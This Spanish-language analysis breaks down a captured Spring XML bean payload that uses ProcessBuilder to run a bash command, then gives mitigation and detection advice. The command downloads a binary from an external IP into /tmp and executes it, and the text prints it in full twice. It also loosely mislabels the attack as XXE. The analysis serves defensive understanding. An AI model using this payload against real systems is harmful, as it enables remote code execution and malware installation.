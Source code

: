 Este fragmento es un **payload XML maliciosa** utilizado para explotar una vulnerabilidad específica en aplicaciones Java basadas en **Spring Framework**, conocida como **Spring XML Remote Code Execution (RCE)**.

Es un archivo XML con configuración de Spring Beans, una parte del framework Spring usado en aplicaciones Java para definir objetos (beans) y su ciclo de vida.

En este caso, el XML define un bean malicioso que se usa para ejecutar comandos arbitrarios en el sistema de la víctima.

```xml
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
```

* Se define un bean con ID `pb`.
* Se utiliza la clase estándar de Java `java.lang.ProcessBuilder`, la cual **permite ejecutar comandos del sistema operativo**.
* `init-method="start"` indica que el método `start()` del objeto `ProcessBuilder` se ejecutará inmediatamente después de la creación del bean.

```xml
<value>bash</value>
<value>-c</value>
<value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
```

Este bloque representa el comando que se ejecutará:

```bash
bash -c "curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker"
```

Este comando hace lo siguiente:

1. Descarga un archivo llamado `docker` desde una IP externa (`128.199.52.72`) al directorio `/tmp`.
2. Le otorga permisos de ejecución.
3. Lo ejecuta.

> Es una forma clásica de **descargar y ejecutar un malware o backdoor**.

**Este ataque se aprovecha de la funcionalidad de deserialización de Spring cuando está mal configurada y **permite cargar directamente archivos XML que definen beans**, incluso si esos beans llaman a clases peligrosas como `ProcessBuilder`.**

Es un caso de:

### Spring XML External Entities (XXE) / RCE

* Similar a una **deserialización insegura**.
* Ocurre cuando se permite al usuario subir o hacer `GET` a un archivo XML que luego es interpretado por Spring como una definición de objetos sin validación ni restricción.

### Mitigación (a nivel de desarrollo y red)


1. **Revisar los servicios expuestos:** Este tráfico va al puerto `8000` en la IP `146.190.21.92`.
2. **Detectar patrones comunes:**
   * Presencia de `ProcessBuilder` en XML.
   * Payloads que invocan `bash`, `curl`, `wget`, `chmod`, `nc`, etc.
3. **Reglas en SIEM/IDS:** Crear reglas para detectar XML con tags `<bean>` usando clases críticas (`java.lang.Runtime`, `java.lang.ProcessBuilder`).

---